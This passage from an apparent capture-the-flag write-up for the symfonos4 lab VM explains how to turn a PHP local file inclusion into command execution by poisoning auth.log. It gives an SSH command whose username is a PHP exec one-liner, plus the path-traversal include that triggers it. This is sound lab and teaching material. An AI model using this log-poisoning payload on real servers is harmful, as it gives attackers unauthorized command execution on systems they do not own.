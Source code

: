 > ![I see fields of logs, red roses too...](.images/authlog.png)

Indeed we can! We'll ignore the odd permissions on `/var/log/auth.log` and continue. We can poke around a bit and find other logs - like `dpkg.log`. Nothing of note, but it's at least something. It's also worth trying an RFI, but that doesn't work either. We're kinda stumped. We take a wild shot in the dark and assume that `sea.php` is including these files with an [`include()`](https://www.php.net/manual/en/function.include.php), meaning we have a potential for arbitrary code execution.

We have (limited) control over a single specific log: `auth.log`. Any failed login attempts will generate a new entry into the logfile. A quick SSH attempt as the user [`chicken`](https://isotropic.org/papers/chicken.pdf) confirms this:

    Aug 23 19:09:01 symfonos4 CRON[2317]: pam_unix(cron:session): session opened for user root by (uid=0)
    Aug 23 19:09:01 symfonos4 CRON[2317]: pam_unix(cron:session): session closed for user root
    Aug 23 19:14:15 symfonos4 sshd[2392]: Invalid user chicken from 192.168.56.1 port 49350
    
This gives us a pretty simple (but extremely clever) attack vector: we try logging on with a user that's actually PHP code to give us some command capability. Unfortunately for us, the system has a very limited username size. We need to be a bit clever and create a nice short PHP one-liner. Some minimization nets us the following command:

    ssh 192.168.56.108 -l '<?php die(exec($_GET["c"]));?>'
    
> **BE CAREFUL:** If your PHP code is too long, you may end up causing your `auth.log` file to be unreadable. This is not a fun place to be.
    
Run this command on your machine, and we hopefully can start abusing our new `c` parameter (remembering to read from `../../../../../../var/log/auth` to trigger our microshell).
